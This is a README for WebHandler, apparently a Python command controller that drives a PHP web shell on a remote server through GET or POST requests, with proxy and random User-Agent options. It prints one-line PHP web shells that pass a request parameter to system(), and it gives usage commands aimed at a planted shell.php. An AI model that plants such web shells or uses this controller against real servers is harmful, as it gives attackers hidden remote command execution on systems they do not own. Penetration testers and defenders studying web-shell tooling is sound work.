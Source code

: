 WebHandler - command controller for PHP system function
---
![My image](http://s9.postimage.org/6u4546aov/icommand.png)

### Info: ###
---
WebHandler is a command controller to handle PHP _program execution functions_ like system, passthru, exec and etc...
The script tries to simulate Linux bash as it works from CLI.
As of optional settings it supports HTTP proxy together with HTTP header values "User-Agent".
It sends requests to the server through urllib/urllib2 [Python][] modules.

* WebHandler works for **POST** and **GET** requests:
    - `<?php system($_GET['cmd']); ?>`
    - `<?php system($_POST['cmd']); ?>`

### Usage: ###
---
* --url is a positional argument withing GET and POST requests:
    - python webhandler.py --url http://www.mywebsite.com/shell.php?cmd=
    - python webhandler.py --url http://www.mywebsite.com/shell.php --method POST --parameter cmd
    - python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --random-agent
    - python webhandler.py -u http://www.mywebsite.com -p cmd --proxy http://127.0.0.1:8080	

[Python]: http://www.python.org/download/
__p.s.__
---
[argparse]: http://docs.python.org/library/argparse.html
If your [Python][]'s version < 7.X
Then [argparse][] is required.
To install it run:
`easy_install argparse` **OR** `pip install argparse`
